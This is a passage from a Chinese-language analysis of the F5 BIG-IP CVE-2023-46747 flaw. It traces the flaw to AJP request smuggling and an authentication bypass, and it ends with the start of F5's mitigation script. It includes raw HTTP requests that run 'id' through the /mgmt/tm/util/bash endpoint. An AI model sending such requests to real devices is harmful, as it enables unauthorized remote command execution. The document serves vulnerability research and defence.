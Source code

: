 ```plain
POST /mgmt/shared/authn/login HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token:
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token: LIKUTWQGCHMYXG2X3LGCUKHUU2
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

换句话说，只要能绕过登陆的鉴权或者拿到管理员账号，就能RCE（远程命令执行）。

所以你就会发现，BIG-IP的RCE（远程命令执行）漏洞几乎都是围绕鉴权绕过产生的，无非是绕过的方法不同。

### Apache Httpd AJP请求走私

我们总结后发现，CVE-2020-5902是利用了Tomcat的特性进行绕过，CVE-2022-1388是利用了请求头的逻辑进行绕过，经过网上披露的细节我们发现这次CVE-2023-46747的问题出现在了Apache。

> AJP 服务全称 Apache JServ Protocol，是一个类似 HTTP 的二进制协议，数据包格式较为简单。AJP 协议的 请求数据包Magic 为 `0x1234`，后面紧跟着 2 个字节的数据长度字段，再往后就是数据包的具体内容。[2](https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt "A New Attack Method: AJP Request Smuggling")

对于 AJP 协议的其他细节就不再进行赘述，可以参考 Apache Tomcat 的官方文档。[3](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html "AJP Protocol Reference")

官方第一时间就给出了缓解脚本[4](https://my.f5.com/manage/s/article/K000137353 "K000137353: BIG-IP Configuration utility unauthenticated RCE CVE-2023-46747")，从缓解脚本发现很明显问题就出在了AJP，联想到AJP请求走私的缓解措施就是设置 Apache Tomcat 的 AJP secret，那么很有可能这个漏洞就是通过AJP请求走私导致的权限绕过，从而导致RCE。

```plain
#!/bin/sh
#
# Copyright © 2023, F5 Networks, Inc. All rights reserved.
#
# No part of this software may be reproduced or transmitted in any
# form or by any means, electronic or mechanical, for any purpose,
# without express written permission of F5 Networks, Inc.
#

proxy_ajp_conf="/config/httpd/conf.d/proxy_ajp.conf"
tomcat_conf="/etc/tomcat/server.xml"


# Backup original configuration files
if [ ! -f "${proxy_ajp_conf}.f5orig" ]; then
    cp "${proxy_ajp_conf}" "${proxy_ajp_conf}.f5orig"
fi
if [ ! -f "${tomcat_conf}.f5orig" ]; then
    cp "${tomcat_conf}" "${tomcat_conf}.f5orig"
fi

usage()
{
    echo "Usage: $0 [-h]|[-u][-r]"
    echo "This utility mitigates ID1378329 and restarts the apache and tomcat daemons."
```